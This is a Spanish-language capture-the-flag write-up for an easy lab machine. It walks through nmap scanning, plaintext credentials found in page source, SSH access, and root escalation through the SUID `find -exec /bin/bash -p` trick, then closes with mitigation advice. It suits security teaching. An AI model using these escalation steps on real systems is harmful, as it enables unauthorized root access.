







## Información General

| Campo | Valor |
|---|---|
| **Plataforma** | whoami-labs |
| **Dificultad** | Fácil |
| **Autor** | elc0ket |

## Técnicas Usadas

Enumeración de servicios, Credenciales en texto plano en código fuente, Escalada de privilegios mediante binario SUID (`find`).

---

## Fase 1: Reconocimiento y Enumeración

### Escaneo de Puertos con Nmap

```bash
nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 172.17.0.2
```



```bash
nmap -p 22,8080 -sC -sV -oN allports 172.17.0.2
```



### Enumeración Web (Puerto 8080)

```
http://172.17.0.2:8080/
```

La página muestra un artículo sobre escalada de privilegios con permisos SUID.

> [!warning] Hallazgo crítico
> En el código fuente de la página se encuentran credenciales en texto plano:
> - **Usuario:** `student`
> - **Contraseña:** `skylar/99`

---

## Fase 2: Acceso Inicial

### Conexión SSH

```bash
ssh-keygen -f '/home/kali/.ssh/known_hosts' -R '172.17.0.2'
ssh student@172.17.0.2
```



---

## Fase 3: Escalada de Privilegios

### Enumeración de Binarios SUID

```bash
find / -perm -4000 -type f 2>/dev/null
```



### Verificación de `/etc/passwd`

```bash
ls -la /etc/passwd
```



Sin escritura para otros grupos

A diferencia de la máquina Password, aquí `/etc/passwd` tiene permisos correctos. El vector es el binario `find` con SUID.

### Explotación con `find`

```bash
find . -exec /bin/bash -p \;
```



### Captura de Flag

```bash
cd /root
```



---

## Conclusión

### Resumen del Ataque

| Fase                  | Acción                   | Herramienta | Resultado                        |
| --------------------- | ------------------------ | ----------- | -------------------------------- |
| **1. Reconocimiento** | Escaneo de puertos       | `nmap`      | Puertos `22` y `8080`            |
| **2. Enumeración**    | Revisión código fuente   | Browser     | Credenciales `student:skylar/99` |
| **3. Acceso Inicial** | Conexión SSH             | `ssh`       | Shell como `student`             |
| **4. Escalada**       | SUID en `/usr/bin/find`  | `find`      | Shell como `root`                |
| **5. Flag**           | Lectura `/root/flag.txt` | `cat`       | `RDp_Exi7`                       |

### Medidas de Mitigación

| Vulnerabilidad | Riesgo | Medida Correctiva |
|---|---|---|
| **Credenciales en código fuente** | Acceso no autorizado | Nunca almacenar credenciales en HTML/JS. Usar variables de entorno o gestores de secretos. |
| **SUID en `find`, `cp`, `mv`** | Escalada de privilegios a root | Eliminar SUID de binarios no esenciales: `chmod u-s /usr/bin/find` |
| **Contraseña débil** | Fuerza bruta o exposición trivial | Implementar políticas de contraseñas robustas y MFA. |

> [!warning] Principio de Mínimo Privilegio
> El bit SUID solo debe estar activado en binarios estrictamente necesarios. Herramientas como `find`, `cp` o `mv` con SUID son vectores de escalada triviales documentados en [[GTFOBins]].

> [!tip] Referencia
> Consultar [[GTFOBins]] para ver todos los binarios SUID explotables y sus técnicas.
